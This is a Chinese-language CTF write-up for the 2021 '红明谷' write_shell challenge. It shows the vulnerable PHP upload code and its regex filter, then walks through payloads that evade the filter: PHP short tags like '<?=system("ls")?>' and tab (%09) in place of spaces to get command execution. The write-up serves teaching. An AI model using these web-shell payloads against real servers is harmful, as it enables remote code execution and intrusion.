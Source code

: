 # \[红明谷CTF 2021]write\_shell

## \[红明谷CTF 2021]write\_shell

## 考点

* `<?`写shell
* %09绕过空格

## wp

给了代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

给了沙盒路径，访问`?action=pwd`就可以看到

![](<../.gitbook/assets/image (6) (1) (1) (1).png>)

然后`?action=upload&data=`是将data写入到沙盒中，访问`sandbox/cc551ab005b2e60fbdc88de809b2c4b1/index.php`就可以看到

要写shell有三种方式，如下

* \<?php
* \<?=要开启short\_open\_tag
* \<script language="php">在PHP7之后就不能用了

在返回头看到PHP版本为7.0，且在check函数中过滤了很多字符

```
/'| |_|php|;|~|\\^|\\+|eval|{|}/i
```

这样就只剩下了`<?=`这种方式，请求`?action=upload&data=%3c%3f%3d123456%3f%3e`，再访问沙盒的index.php，是可以输出123456，过滤了`~`，不能取反绕过。然后构造正常的shell就可以

```
?action=upload&data=<?=system("ls")?>
// 过滤了空格，使用%09绕过
?action=upload&data=<?=system("ls%09/")?>
```

![](<../.gitbook/assets/image (25) (1) (1) (1) (1) (1).png>)

## 小结

1. 这里尝试了无参RCE，发现个很奇怪的东西，在去读请求头的时候，出来个http，`?action=upload&data=<?=end(getallheaders())?>`，不论怎么改请求头都是这个http
